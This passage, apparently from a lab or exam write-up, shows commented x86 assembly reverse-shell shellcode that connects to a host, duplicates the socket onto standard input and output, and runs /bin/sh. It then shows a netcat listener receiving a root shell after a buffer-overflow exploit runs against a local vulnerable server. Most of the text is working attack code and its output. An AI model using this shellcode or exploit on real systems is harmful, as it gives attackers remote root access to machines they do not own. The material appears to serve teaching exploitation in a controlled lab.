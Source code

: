 ```assembly
	push %bx 			# AF_INET = 2
	mov %esp, %ecx			# %ecx point on the struct sockaddr.
	push $16 			# sizeof(struct sockaddr)
	push %ecx 			# (struct sockaddr *) &host_addr
	push %esi 			# sockfd
	mov %esp, %ecx			# pointer to args
	inc %ebx			# %ebx = 3 = SYS_CONNECT = connect()
	int $0x80 			# call connect();

	#dup2(socket, i) where i = 0, 1 then 2;
	xchg %ebx, %esi			# socket descriptor in %esi, 3 in %eax
	push $0x2			# push/pop cost less than mov in %ecx
	pop %ecx			# %ecx = counter from 2 to 0
	dup2:
		movb $0x3f, %al	 	# dup2()
		int $0x80 		# call dup2()
		dec %ecx 		# decr %ecx
		jns dup2

	#execve("/bin/sh", ["/bin//sh", NULL], NULL);
	mov $11, %al			#execve
	push %edx			#Null at the end of the string
	push $0x68732f2f		# "//sh"
	push $0x6e69622f		# "/bin"
	mov %esp, %ebx			# address of "/bin//sh\0" in %ebx
	push %edx			# push NULL
	mov %esp, %edx			# tab empty (3)
	push %ebx			# push addess of "/bin//sh"
	mov %esp, %ecx			# argv (2)
	int $0x80
```
	
I commented the code., so everyone can understand it. Ok so now we can try this :
	
```sh
    NETCAT LISTENING SOCKET
	
	[student@localhost exam]$ nc -v -l 127.0.0.1 12345
	Connection from 127.0.0.1 port 12345 [tcp/italk] accepted
	whoami
	root
	ps
	  PID TTY          TIME CMD
	 6496 pts/1    00:00:00 su
	 6505 pts/1    00:00:00 bash
	11113 pts/1    00:00:00 sh
	11118 pts/1    00:00:00 ps
```
```sh
	VULNERABLE SERVER 

	[root@localhost exam]# ./xstack server
	[root@localhost exam]# ./server &
	[1] 11113
```
```sh
	EXPLOIT ON CLIENT SIDE
	
	[root@localhost exam]# ./exploit
	Please select an option:
	1. Time
	2. Date
	1
	The time is 09:52 AM
	Do you wish to continue? (Y/N)
```